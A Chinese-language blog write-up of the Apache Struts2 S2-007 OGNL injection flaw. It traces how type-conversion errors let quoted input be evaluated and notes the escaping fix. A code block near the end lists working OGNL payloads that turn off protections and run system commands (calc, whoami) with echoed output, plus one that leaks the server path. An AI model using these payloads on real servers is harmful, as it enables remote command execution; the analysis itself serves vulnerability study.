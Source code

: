 ```yaml
---
title: Struts2-007漏洞分析
tags: Struts2
typora-root-url: ../
---
```


#### 漏洞概要

可参考官方安全公告：https://cwiki.apache.org/confluence/display/WW/S2-007

#### 漏洞分析

S2-007的利用场景比较苛刻，要求对提交的参数配置了验证规则并对提交的参数进行类型转换的时候会造成`OGNL`表达式的执行。

这个漏洞的成因在于，在Struts2中，关于表单我们可以设置每个字段的规则验证，如果类型转换错误时，就会进行错误的字符串拼接，通过闭合引号导致`OGNL`的语法解析。

<!--more-->

简易POC

```
'+(#application)+'
```

在 Struts2 中，可以将 HTTP 请求数据注入到实际业务 Action 的属性中。而这些属性可以是任意类型的数据，通过 HTTP 只能获取到 String 类型数据，所以这里存在类型转换。我们可以通过 xml 文件，来定义转换规则。例如，我这里定义了一个 `UserAction` 类，其有一个 `Integer` 类型的 `age` 属性，这里我们让其数值范围在`1-150` 。

![image-20201228145655095](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201228145655095.png)

![image-20201225155539404](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225155539404.png)

如果此时我们将 `age` 属性值设置成一个字符串，那么就会引发类型转换错误。Struts2 会将用户输入的数据经过处理再次返回给用户。

![image-20201225155827873](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225155827873.png)

而在这个处理的过程中，就存在 `OGNL` 表达式注入，我们先在` ConversionErrorInterceptor:intercept() `方法中打上断点(`ConversionErrorInterceptor` 类是专门用来处理类型转换失败的拦截器)，当类型出现错误的时候，就会进入这里

![image-20201225160842454](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225160842454.png)

![image-20201225160414486](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225160414486.png)

当发生类型转换错误时，程序会将用户输入的值存入 `fakie` 变量。在存入之前，会先将值用 `getOverrideExpr `方法处理，我们跟进该方法。

![image-20201225161637883](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225161637883.png)

在 `getOverrideExpr` 方法中，会在用户输入的值两边拼接上单引号，然后再将值存入刚刚的 `fakie` 变量。这里把我们的payload用单引号阔起来了，这也就解释了为什么我们的payload是形如 `' + (*) + '`的形式，就是为了逃逸这个单引号。

![image-20201225161954632](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225161954632.png)

接着程序会把` fakie` 变量通过`setExprOverrides`将其放入`OgnlValueStack.overrides`中

![image-20201225162709287](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225162709287.png)

![image-20201225164705641](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225164705641.png)

然后在解析到 Struts2的 `/>`标签时，会将用户输入值经过` OGNL` 执行并返回。如果先前 `OgnlValueStack.overrides `存储过相关字段，则会先从` OgnlValueStack.overrides` 中取出相关值，然后再通过` OGNL `执行。

![image-20201225172127453](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225172127453.png)

![image-20201225172048324](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225172048324.png)

![image-20201225172537185](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225172537185.png)

```
# 弹计算器
'+(#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Runtime@getRuntime().exec("calc"))+'

'+(#_memberAccess["allowStaticMethodAccess"]=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,@java.lang.Runtime@getRuntime().exec("calc"))+'

# 获取绝对路径
'+(#context["xwork.MethodAccessor.denyMethodExecution"]=false,#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter().write(#req.getRealPath('/')))+'

'+(#_memberAccess["allowStaticMethodAccess"]=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter().write(#req.getRealPath('/')))+'

# 执行系统命令并回显
'+(#context["xwork.MethodAccessor.denyMethodExecution"]=false,#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter().write(new java.util.Scanner(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()).useDelimiter("\\Z").next()))+'

'+(#_memberAccess["allowStaticMethodAccess"]=true,#context["xwork.MethodAccessor.denyMethodExecution"]=false,#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter().write(new java.util.Scanner(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream()).useDelimiter("\\Z").next()))+'
```



![image-20201225172935494](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225172935494.png)

#### 修复

使用 `org.apache.commons.lang.StringEscapeUtils.escapeJava()`来做了一下escape，防止再从引号里面逃逸出来。

![image-20201225173722361](/img/Struts2-007%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/image-20201225173722361.png)

#### 参考

https://xz.aliyun.com/t/7971

https://cwiki.apache.org/confluence/display/WW/S2-007